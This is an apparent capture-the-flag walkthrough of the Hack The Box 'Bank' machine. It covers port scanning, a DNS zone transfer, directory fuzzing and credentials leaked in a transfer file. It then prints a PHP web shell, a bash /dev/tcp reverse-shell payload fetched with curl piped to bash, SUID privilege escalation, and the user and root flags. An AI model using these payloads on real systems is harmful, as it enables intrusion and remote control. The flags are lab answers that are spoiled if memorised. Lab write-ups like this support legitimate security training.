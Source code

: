 ![Bank.PNG](/assets/Machines/Easy/Bank/Bank.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.29
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.29
```

**Output**
```bash
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
```

3. Visit Web Page

![web.PNG](/assets/Machines/Easy/Bank/web.PNG)

4. Do `Virtual Hosting` for try to discover more informartion.
5. When `Port 53` is open you can do **Attack Transfer Zone** using `dig` or try to discover domain name whit `nslookup`
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Writeup]
└─# dig @10.10.10.29 bank.htb axfr
```
**Output**
```
<SNIP>
bank.htb.   604800  IN      SOA     bank.htb. chris.bank.htb. 5 604800 86400 2419200 604800
<SNIP>
```

* We discover a **subdomain** `chris.bank.htb`
  
6. Do `Directory Fuzzing`
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Writeup]
└─# wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt http://bank.htb/FUZZ/
```
**Output**
```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                
=====================================================================

000000273:   200        20 L     104 W      1696 Ch     "assets"
000002039:   200        19 L     89 W       1530 Ch     "inc"
000180755:   200        1014 L   11038 W    253503 Ch   "balance-transfer"
```

7. Visit `balance-transfer` directory

![balance.PNG](/assets/Machines/Easy/Bank/balance.PNG)

8. Get all previous information using `curl`
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Bank]
└─# curl -s -X GET "http://bank.htb/balance-transfer/"
```

* Output is in HTML, to parse all previous information to HTML use `html2text` and save all output into a file.
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Bank]
└─# curl -s -X GET "http://bank.htb/balance-transfer/" | html2text > output.txt
```
**Output**
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Bank]
└─# curl -s -X GET "http://bank.htb/balance-transfer/" | html2text > output.txt
```

* **Output line:** `[[   ]]      ff8a6012cf9c0b6e5957c2cc32edd0bf.acc 2017-06-15  585`

* We need only **name of file** and **size**, to save this use:
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Bank]
└─# curl -s -X GET "http://bank.htb/balance-transfer/" | html2text | awk '{print $3" "$5}' > balance.txt
```

* Clean empty lines of file.
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Bank]
└─# cat balance.txt| sed '/^\s*$/d' > clean.txt
```


* Finally, show not repetitive size.
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Bank]
└─# cat clean.txt | grep -vE "584|585|583|582|581"
```
**Output**
```
68576f20e9732f1b2edc4df5b8533230.acc 257
Server bank.htb
```

9. Download previous file of `balance-transfer` directory
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Bank]
└─# cat 68576f20e9732f1b2edc4df5b8533230.acc      
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

* We have credentials now!, **user** `chris@bank.htb` and **password** `!##HTBB4nkP4ssw0rd!##`

10. We have credentials, but, don't have authentication panel. Try to visit common file names: `login.php` | `admin.php`

* **URL:** `http://bank.htb/login.php/`

![login.PNG](/assets/Machines/Easy/Bank/login.PNG)

* Use previous credentials to login.

![ban.PNG](/assets/Machines/Easy/Bank/ban.PNG)

11. Go to `support` section and view source code (Press `Ctrl` + `U`), and we look this message

![message.PNG](/assets/Machines/Easy/Bank/message.PNG)

12. Upload this file to execute commands

* **command.htb**
```php
<?php
    system($_GET['cm']);
?>
```

13. Now we can execute commands!

* **URL:** `http://bank.htb/uploads/command.htb?cm=whoami`

![out.PNG](/assets/Machines/Easy/Bank/out.PNG)

14. Get a reverse shell.

15. Create a **index.html** with next code and create **http server with python** in current directory
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.33/4444 0>&1
```

16. Use curl for access to previous file.
* **URL:** `http://bank.htb/uploads/command.htb?cm=curl <tun0 IP>|bash`

Remember listen on port choosed

**Output**
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Writeup]
└─# nc -lvnp 4444
www-data@bank:/var/www/bank/uploads$ whoami
whoami
www-data
```

17. Show **user flag**
```
www-data@bank:/home/chris$ cat user.txt 
eb5d4ab336e900921298f49cbd5e3609
```

---
---
### **Privileges Escalation** 💀
1. Search for all files with SUID permission
```
www-data@bank:/home/chris$ find / -perm -4000 2>/dev/null
```
**Output**
```
/var/htb/bin/emergency
<SNIP>
```

2. Run `emergency`
```
www-data@bank:/home/chris$ /var/htb/bin/emergency
```
**Output**
```
# whoami
root
```

3. Show root flag
```
# cat /root/root.txt
deeb60ed4b41bb72a07e71ba7ff919b0
```